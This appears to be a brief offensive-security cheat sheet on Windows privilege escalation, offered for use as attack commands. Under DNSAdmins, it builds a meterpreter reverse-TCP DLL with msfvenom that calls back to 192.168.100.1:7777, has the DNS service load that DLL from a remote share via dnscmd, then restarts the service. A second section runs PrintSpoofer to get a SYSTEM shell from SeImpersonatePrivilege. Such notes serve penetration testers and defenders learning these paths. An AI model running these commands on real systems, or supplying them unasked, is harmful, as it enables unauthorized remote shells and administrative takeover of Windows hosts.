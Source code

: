 ### Sensitive Groups Privilege Escalation

### DNSAdmins
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.1 LPORT=7777 -f dll -o DNSAdmins.dll
dnscmd.exe john.insomnia /config /serverlevelplugindll \\192.168.100.1:8080\DNSAdmins.dll
sc stop dns
sc start dns
```

### SeImpersonatePrivilege Privilege Escalation

If SeImpersonatePrivilege is enabled, you  belong to Admin :) 
```
https://github.com/itm4n/PrintSpoofer
PrintSpoofer64.exe -i -c cmd
```
